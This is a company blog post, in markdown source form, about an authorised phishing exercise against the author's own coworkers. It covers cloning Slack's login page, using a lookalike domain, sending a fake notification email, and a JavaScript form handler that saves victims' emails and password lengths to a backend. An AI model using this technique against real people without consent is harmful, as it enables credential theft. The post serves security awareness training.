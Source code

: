 ```yaml
---
path: /64-hacking-your-own-company/
title: "Hacking your own company"
author: joao-justo
date: 2015-11-18
cover: https://subvisual.s3.amazonaws.com/blog/hero/129/image@2x.jpg
tags:
  - development
intro: "I have a confession to make. A while ago I hacked my own company."
---
```


I have a confession to make. A while ago I hacked my own company.

##Motivation

You might be wondering why someone would hack his own company. A company like Subvisual has a transparent communication and processes. So, if I want to know something, all I got to do is ask.

The answer to this question is [Mr. Robot](http://www.imdb.com/title/tt4158110/?ref_=fn_al_tt_1)!
Yes, the TV show.

I’m a big fan of Mr. Robot.
For those of you who don’t know it, it’s a hacker TV series that’s very realistic. Instead of showing some random letters on a terminal they showed the viewers real techniques and exploits.

If you watched the series you certainly have noticed that our favourite hacker Elliot accomplishes some hacks by masquerading as a trustworthy entity and then simply ask for information directly to the victim.

This technique is called a phishing scam and despite being one of the most used exploits on the internet, it’s still one of the most effective.

I was skeptic that people would fall so easily on such a simple exploit so I became very curious on this. After some time I came up with a simple case study:

I wanted to create a phishing scam targeting my co-workers. The goal was to send a fake email to my whole team, containing a link to a malicious site, in order to see how many people would login on it, giving me their credentials.

If you put some thought on the matter your own team members are the perfect test subjects. You spend at least 8 hours per day with them, you know some of their habits, some of their tools and most importantly some of the sites they use and therefore some of the emails they receive. You also have the opportunity to watch first-hand how they will react when they see it.

Now you might be wondering if this is reasonable. After all getting someone’s private information might have a devastating effect on both the victim and the hacker, also worth mentioning that such action is… illegal. Considering that the victim will be sitting next to you this might not seem like a good idea after all. Also worth mentioning that my targets are experienced web developers so their defences are probably a step higher. 

How can this be accomplished in such conditions? If you stick with me a little longer I’ll care to explain.

##Preparation

My first plan was to attack the whole company at once keeping the whole thing secret and then, on a Friday Talk reveal what happened and how many people had fallen. After some days thinking on this and given the reasons above I changed the plan a bit.

The first thing I did was to ask permission and guidance to Roberto, our CEO. He received the idea surprisingly well and like me he was curious to know if our team would be able to recognise a simple phishing scam and if so, how could we improve the company security and awareness. We also shared the same concerns regarding personal information so it was decided that passwords or other relevant information would not be stored. The only thing that I would try to capture was the password length as proof that the given person had been victim of the attack.

With this set I began to prepare the hack.

After some time observing the team I noticed that most of our internal communication is done on [Slack](https://slack.com/), [Trello](https://trello.com/) and [GitHub](https://github.com/). The emails that we received are mostly notifications from these apps so I started to analyse how easily I could create a clone of those and trick my coworkers to login to it.

My weapon of choice was Slack. The main reason for this was the fact that almost all of our important communication is generated on it. Theoretically if someone received an important email saying that he/she missed an important message this person should follow the link to catch up.

Here’s an example of a normal notification email from Slack:

![Regular Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/67/image-1447699776511.png)

The email itself shows the missing mention so you might think that this not an ideal situation. For an efficient phishing scam we usually need some content that requires an action, a hook that leads the victims to follow a malicious link.

For this to work I needed to change the content by inserting a partial message and a call to action button, but maintain the familiar layout and appearance.

##Building the attack

This is the geeky part but there is not much to it on this field. All we need is a simple static web page and some place to save the emails and password lengths.

I chose to host the page on [GitHub Pages](https://pages.github.com/) and to use [Parse](https://parse.com/) as my attack storage for the sake of simplicity.

Then I started searching for a domain that resembled slack.com and indeed I found one available - slaack.co.

To clone the whole slack.com site I used an app called SiteSucker. This duplicates the site directory structure and files on your machine meaning that my cloned slack would look exactly like the original even on mobile.

With this set getting the emails and passwords lengths was very easy. I just removed the code from the login form and added some lines:

```
Parse.initialize(‘xxxxxx’,’xxxxxx’);

var ScammedUser = Parse.Object.extend(‘ScammedUser’);
var scammedUser = new ScammedUser();
	
function onSubmitKey(e) {
  if (e.keyCode == 13)
    onSubmit();
}
	
function onSubmit() {
  var accountDetails = {
    email: $(‘#email’).val(),
    password: $(‘#password’).val().length
  };
			
  if (!accountDetails.email ||
      !accountDetails.password)
    return;
	
  scammedUser.save(accountDetails)
    .then(function(object) {
      console.log(‘Success’, accountDetails);
      window.location.href = realSlackLink;
    });
}
```

Finally, the fake email looked like this:

![Fake Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/68/image-1447699815368.png)

##Attacking

This whole thing was online for more than 3 days, ready and waiting for the perfect opportunity. I chose to strike on a Thursday by the end of the day as people left the office. I sent the fake email. That way, as people arrived home, they would see an email notification from the team. Even better, they would see a notification from their CEO on a channel called “#secretProject” so the curiosity factor was involved.

##Results

In the end 20% of our team fell on the attack (all of them are developers). While this number might seem acceptable, it is not. On such a sensible platform like Slack, where most of our company's communication happens, a malicious attacker only needed one person to gain access to privileged information. Also worth noticing that if someone gained access to Slack this person could easily try to impersonate the victim in order to collect other information from the victim’s coworkers.

I presented this results on a Friday Talk and after some discussion I understood the rest of the people didn’t open the link only because they didn't care about Slack email notifications. I also presented some context and countermeasures about phishing attacks that helped raising the awareness for this kind of vulnerability.

The most important lessons taking from this are:

-
Nobody is safe from being victim of a phishing attack, even experienced developers can easily be victims.

-
It’s hard to identify fake communication from the platforms we use every day. We don’t pay that much attention to it so it’s only natural that our defences are lower than normal.

-
People now better understand the importance of security measures like two factor authentication.

-
It was fun and a completely different approach to this security theme; by feeling the problem people understand better that they need to create defences against such attacks.

On the end what I have to tell you is to go ahead and do the same on your company. It’s easier to construct defences with a real understanding of the problem than just trying to fight something that was not experienced by anyone.

I will try to identify and correct more weaknesses in Subvisual and I hope you will do the same at your own work place.

Happy hacking.
